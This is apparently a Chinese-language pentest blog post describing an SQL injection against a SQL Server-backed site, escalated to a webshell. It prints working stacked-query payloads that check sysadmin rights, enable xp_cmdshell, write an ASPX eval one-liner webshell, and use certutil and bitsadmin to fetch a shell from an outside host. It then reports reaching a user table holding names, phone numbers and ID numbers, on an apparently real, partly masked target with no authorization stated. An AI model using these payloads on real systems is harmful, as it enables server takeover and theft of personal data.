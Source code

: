 +++
title = "SQL Server注入到getshell"
topics = ["Pentest"]
tags = ["pentest"]
description = "我的个人博客，主要用于记录自己的一些学习笔记之类的东西，其中有渗透测试、python、php等。"
date = "2019-03-02T20:23:35+08:00"
draft = false
+++

### 0x00 目标情况
* 一个web站点111.\*.\*.63，只有一个登陆框，测试了没有注入，没有弱口令
* 扫描了全端口，没有发现什么有用的信息

### 0x01 发现注入
当时是查看网页源代码，有两个可疑接口，一个是初始化密码借口，访问返回空白页面，没有什么用

另一个是密码设置接口，不过这个接口是同网段的另一个ip 111.\*.\*.59，访问后发现是个重置密码的界面
![80](/img/post/Xnip2019-03-03_14-50-18.png)

但是进行密码重置的时候需要发送验证码，系统会先校验用户名是否存在，加单引号出错，and 1=2没反应

burpsuite抓包后sqlmap跑了下，python sqlmap.py -r 1.txt，存在注入
![80](/img/post/Xnip2019-03-03_16-00-32.png)

通过sqlmap得到了这几个数据库
```
[*] HSOA_20170320
[*] HSOA_NEW
[*] HSOA_T
[*] master
[*] model
[*] msdb
[*] Shuttle
[*] SHWT
[*] tempdb
```

### 0x02 找网站绝对路径
* 判断是不是dba权限(延时后返回正确页面，确定为dba权限<也可用sqlmap的--is-dba判断>)

```
uname=test';if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:2';--
```

* 判断是否是站库分离(延时后返回正确页面，确定站库没有分离)

```
uname=test';if(host_name()=@@servername) WAITFOR DELAY '0:0:5';--
```

* 查看是否有xp_cmdshell

```
uname=test';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:2'--
```
```
恢复／删除xp_cmdshell
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'
exec sp_dropextendedproc 'xplog70.dll'
```

* 开启xp_cmdshell

```
# 关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

* 得到网站绝对路径

可以找一个在网站中的文件，然后可以用```dir /s /b d:\"aa.txt"```或者 for /r d:\ %i in (aa.txt) do echo %i来得到路径

查看网页源代码发现引入了js脚本```"<script src="/Content/layer/layer.js"></script>"```，就查找layer.js吧

本来想使用sqlmap的-\-os-shell直接执行命令试试，python sqlmap.py -r 1.txt --os-shell，但是发现执行命令的话一直没有数据返回

<br>
那就手工注入找路径，先建表，将路径插入表，然后得到表内容

```
--在数据库tempdb下创建临时表tt_tmp
uname=test';use tempdb;create table tt_tmp (tmp1 varchar(1000));--
```

sqlmap查看建表成功，```sqlmap -r 1.txt --dbms "Microsoft SQL Server" -D "tempdb" --tables```
![40](/img/post/Xnip2019-03-03_18-16-01.png)

```
--查找网站文件并把路径写入到表tt_tmp
uname=test';use tempdb;insert into tt_tmp(tmp1) exec master..xp_cmdshell 'dir /s /b d:\layer.js';--
```

用sqlmap得到表tt_tmp的内容: ```python sqlmap.py -r 1.txt --dbms="Microsoft SQL Server" --technique=S -D "tempdb" -T "tt_tmp" -C "tmp1" --dump -v 3```
![65](/img/post/Xnip2019-02-28_10-01-37.png)

### 0x03 尝试在111.\*.\*.59主机getshell
* 尝试写一句话

先在下面的路径中写入txt文件验证网站路径到底是哪一个

```
D:\bak\20170226\bak\20170403.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.3\webapp\Content\layer\
D:\bak\20170226\bak\20170404\webapp\Content\layer\
D:\bak\20170226\bak\20170405\webapp\Content\layer\
D:\bak\20170226\bak\20170407\webapp\Content\layer\
D:\bak\20170226\bak\20180103\webapp\Content\layer\
D:\bak\20170226\bak\20180320\webapp\Content\layer\
D:\bak\20170226\webapp\Content\layer\
D:\bak\20170226\webappYM\Content\layer\
D:\WEBAPP\Content\layer\
```

```sql
uname=test';exec master..xp_cmdshell 'echo test >D:\bak\20170226\bak\20170403.2\webapp\Content\layer\11.txt';--
```
依次写文件然后访问，在写入 ```D:\bak\20170226\webapp\Content\layer\123.txt```时，访问```http://111.*.*.59/Content/layer/123.txt```能正常访问到123.txt，返回内容为test，证明web路径就是D:\bak\20170226\webapp\
<br>
尝试写入一句话(< >的前面要加^)
```
uname=test';exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.item["Aa1234567"],"unsafe");%^> > D:\bak\20170226\webapp\Content\layer\cc.aspx';--
```

访问时可以看到aa.aspx确实写入了，但是菜刀连接不上
![70](/img/post/Xnip2019-03-03_20-25-24.png)

* 尝试直接下载shell到服务器

使用bitsadmin下载时并没有成功，访问```http://111.*.*.59/Content/layer/aaa.aspx```返回404
```
uname=test';exec master..xp_cmdshell 'bitsadmin /rawreturn /transfer getfile http://59.108.123.123/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```

使用certutil下载时才成功，得到shell地址```http://111.*.*.59/Content/layer/aaa.aspx```
```
uname=test';exec master..xp_cmdshell 'certutil -urlcache -split -f http://59.108.123.123/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```
![70](/img/post/Xnip2019-03-03_20-42-24.png)

### 0x04 查数据库相关信息
* 找到数据库配置文件
![80](/img/post/Xnip2019-03-05_10-25-52.png)
![90](/img/post/Xnip2019-03-05_10-34-10.png)
![90](/img/post/Xnip2019-03-05_10-37-28.png)

* 尝试登陆
找到了用户表，有用户名、密码、姓名、手机号、邮箱、身份证号
![80](/img/post/Xnip2019-03-05_11-00-44.png)
在111.\*.\*.63登陆发现它只是个登陆接口，真正网站是在111.\*.\*.59的
![60](/img/post/Xnip2019-03-05_11-03-08.png)


### 0x05 附：sqlmap得到路径的语句分析
```sql
cast转换数据类型
isnull判断数据是否为空，为空的话返回char(32)
unicode字符转换为10进制数字

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp),1,1))>32) WAITFOR DELAY '0:0:1';

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp WHERE CONVERT(NVARCHAR(4000),tmp1)>'D:\WEBAPP\Content\layer\layer.js'),1,1))>16) WAITFOR DELAY '0:0:1';
```


<br>
#### Reference(侵删)：
* [https://www.cnblogs.com/backlion/p/6869595.html](https://www.cnblogs.com/backlion/p/6869595.html?_blank)


